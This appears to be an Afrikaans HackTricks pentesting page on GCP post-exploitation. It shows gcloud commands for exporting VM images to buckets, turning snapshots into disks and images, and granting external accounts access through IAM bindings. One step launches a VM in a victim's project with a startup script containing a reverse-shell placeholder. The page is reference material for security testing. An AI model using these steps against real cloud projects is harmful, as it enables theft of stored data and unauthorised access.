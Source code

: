 # GCP - Rekenaar Post Exploitasie

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy in HackTricks wil adverteer** of **HackTricks in PDF wil aflaai**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repos.

</details>

## Rekenaar

Vir meer inligting oor Rekenaar en VPC (Netwerking) kyk:

{% content-ref url="../../gcp-pentesting/gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-pentesting/gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Voer & Inspekteer Beelde lokaal uit

Dit sal 'n aanvaller in staat stel om **toegang te verkry tot die data wat reeds in beelde bestaan** of **nuwe beelde van lopende VM's te skep** en toegang tot hul data te verkry sonder om toegang tot die lopende VM te hê.

Dit is moontlik om 'n VM-beeld na 'n emmer uit te voer en dit dan af te laai en lokaal te koppel met die opdrag:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Voordat hierdie aksie uitgevoer kan word, mag die aanvaller bevoegdhede oor die stoorbak benodig en beslis **bevoegdhede oor cloudbuild** aangesien dit die **diens** is wat gevra sal word om die uitvoer te doen.\
Verder moet die codebuild SA en die compute SA bevoorregte toestemmings hê.\
Die cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` benodig:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

En die SA `<project-id>-compute@developer.gserviceaccount.com` benodig:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Voer Snapshots & Disks uit en ondersoek dit plaaslik

Dit is nie direk moontlik om snapshots en skywe uit te voer nie, maar dit is moontlik om **'n snapshot in 'n skyf te omskep, 'n skyf in 'n prent** en volgens die **vorige afdeling**, die prent uit te voer om dit plaaslik te ondersoek

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Inspekteer 'n Beeld deur 'n VM te skep

Met die doel om toegang te verkry tot die **data wat in 'n beeld gestoor is** of binne 'n **lopende VM** waar 'n aanvaller **'n beeld geskep het**, is dit moontlik om 'n eksterne rekening toegang te verleen oor die beeld:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
en skep dan 'n nuwe VM daaruit:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
As jy nie eksterne toegang tot jou beeld kon gee nie, kan jy 'n virtuele masjien (VM) met daardie beeld in die slagoffers se projek begin en die metadata gebruik om 'n omgekeerde skulp uit te voer om toegang tot die beeld te verkry deur die parameter by te voeg:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspekteer 'n Oorsig/Disk deur dit aan 'n VM te heg

Met die doel om toegang te verkry tot die **data wat in 'n disk of 'n oorsig gestoor is, kan jy die oorsig omskep na 'n disk, 'n disk na 'n prent en die vorige stappe volg.**

Of jy kan **'n eksterne rekening toegang verleen** tot die disk (as die beginpunt 'n oorsig is, gee toegang tot die oorsig of skep 'n disk daarvan):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Koppel die skyf** aan 'n instansie:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Monteer die skyf binne die VM:

1. **SSH in die VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Identifiseer die Skyf**: Sodra jy binne die VM is, identifiseer die nuwe skyf deur die lys van skyf-toestelle te vertoon. Gewoonlik kan jy dit vind as `/dev/sdb`, `/dev/sdc`, ens.
3. **Formateer en Monteer die Skyf** (as dit 'n nuwe of rou skyf is):
*   Skep 'n monteer punt:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Monteer die skyf:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

As jy **nie toegang kan gee aan 'n eksterne projek** tot die afskrif of skyf nie, moet jy dalk hierdie aksies **uitvoer binne 'n instansie in dieselfde projek as die afskrif/skyf**.

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
